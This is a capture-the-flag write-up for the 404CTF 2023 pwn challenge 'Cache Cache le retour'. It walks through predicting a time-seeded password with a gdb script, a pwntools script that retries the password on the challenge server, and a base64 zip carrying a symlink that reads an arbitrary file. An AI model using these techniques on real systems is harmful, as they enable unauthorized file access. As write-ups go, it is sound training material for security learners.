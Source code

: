 ```yaml
---
title: CTFs | 404CTF2023 | Cache Cache Le Retour
author: Kaiba_404
date: 2023-06-05
categories: [CTFs, 404CTF2023, Cache Cache Le Retour]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/cachecacheleretour
---
```


# Cache Cache le retour

![cache-cache-chall](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/61ac3663-27cb-4b5f-a960-f0aac9df459e)

Using the commands `file cache_cache_le_retour` and `checksec cache_cache_le_retour` to get some more infomation,

```bash
file cache_cache_le_retour 
cache_cache_le_retour: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d574568517100e5aa82bc0cc539ef23a08e43dd3, stripped

checksec cache_cache_le_retour
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Use Ghidra to read the code. Since the binary file has been stripped, it may be challenging to comprehend the code. As a solution, I decided to rename some functions to enhance the code's readability. The modified function names are displayed in the image below.

![func_name_chache](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/43956ad6-eb89-45fa-86f0-7ad970e0391e)

**The function main**

![main_cache_cache](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/aa32515f-57a5-4bbe-9404-c20ac8269b57)

From the code, it is evident that the password is randomly generated each time the ELF file is executed. The rand() function is utilized to generate a pseudo-random number, with the seed being based on the current timestamps.

Understanding this, we can recreate the password generation process by using the same binary file and providing a seed based on future timestamps, such as the next 30 seconds or more. By generating the password using this approach, we can then attempt to "brute force" the server's password by trying the generated passwords every second until we succeed.

The code below will help us to get the generated password by using gdb script:

```shell
set disassembly-flavor intel

break *0x5555554016a5 # just before the srand() function
commands
    silent
    print($rax)
    set $rax += 33 # add 33s into the current timestamps
    print($rax)
    continue
end

break *0x5555554016ff # just after the loop which generated the password
commands
    silent
    set $pass = (char *) $rbp -0x40 # get the password in the memory
    print($pass)
    quit
end

run
```

Before running this script, we must temporarily disable ASLR (Address space layout randomization) to get the same address each time we launch the ELF file. By using this command \
`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

The breakpoints are put at the instructions that are in the red box in the image below

![br_point](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/6c1fc56e-7b86-407b-82ab-55bd2acb9b56)

Running the script:

```shell
gdb-peda$ source auto_gdb.gdb 
Breakpoint 1 at 0x5555554016a5
Breakpoint 2 at 0x5555554016ff
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$1 = 0x64818bc0
$2 = 0x64818be1
$3 = 0x7fffffffdcb0 "[FG/9y>frk}>G18bcac["
```

==> password = `[FG/9y>frk}>G18bcac[`

Code for "brute forcing" the access:

```python

from pwn import *
import time

while True:


    p = process("./cache_cache_le_retour")
    # p = remote("challenges.404ctf.fr",31725)


    password = b'[FG/9y>frk}>G18bcac['

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()
    print(sms.decode())

p.interactive()
```

After successful with password, the program will call `give_a_gift` function (name given by me) as shown below

![give_a_gift](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/deab306f-6332-421b-bfc7-6965bb4278af)

This function takes a base64-encoded string as input and saves it as a file named "mystere.zip". Subsequently, it extracts the contents of this file to access the "surprise.txt" file. This indicates that we may be able to exploit the functionality by using symlinks within the "surprise.txt" file, allowing us to read the contents of arbitrary files after uploading them to the server.

We can also see the PS inside the description of the chall. There was something in the sale_au_tresor, so I decided to create a symlink from mystere.txt to the salle_au_tresor.
By using the commands below we will get the base64 file and ready for exploiting
![PS_cache_cahe](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/67161fe4-719e-4340-a471-d50909b44951)

```shell
$ ln -s salle_au_tresor surprise.txt
$ zip --symlinks mystere.zip surprise.txt
$ cat mystere.zip | base64 

UEsDBAoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAMBumxkAbpsZHV4CwABBOgDAAAE6AMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAAwG6bGR1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA
```

## The complete code

```python
from pwn import *
import time

while True:


    # p = process("./cache_cache_le_retour")
    p = remote("challenges.404ctf.fr",31725)


    password = b'[FG/9y>frk}>G18bcac['

    p.recvuntil(b"mot de passe ?\n")
    p.sendline(password)

    sms = p.recv()

    if b'Je me vois au regret de refuser' in sms:
        p.close()
        time.sleep(0.6)
        continue  
    gif = b"UEsDBAoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABwAc3VycHJpc2UudHh0VVQJAAMBumxkAbpsZHV4CwABBOgDAAAE6AMAAHNhbGxlX2F1X3RyZXNvclBLAQIeAwoAAAAAAKN4t1aLoRhuDwAAAA8AAAAMABgAAAAAAAAAAAD/oQAAAABzdXJwcmlzZS50eHRVVAUAAwG6bGR1eAsAAQToAwAABOgDAABQSwUGAAAAAAEAAQBSAAAAVQAAAAAA"
    p.sendline(gif)
    result = p.recvall()

    with open("remote_flag.txt", "wb") as binary_file:

        binary_file.write(result)
        break
print(result)
print('terminate')
p.interactive()

```

**Result**
```shell

[*] Closed connection to challenges.404ctf.fr port 31725
[+] Opening connection to challenges.404ctf.fr on port 31725: Done
[+] Receiving all data: Done (60B)
[*] Closed connection to challenges.404ctf.fr port 31725
b'404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}\n\n'
```

**Flag:**  `404CTF{UN_CH3V41_D3_7r013_P0Ur_3NV4H1r_14_54113_4U_7r350r}`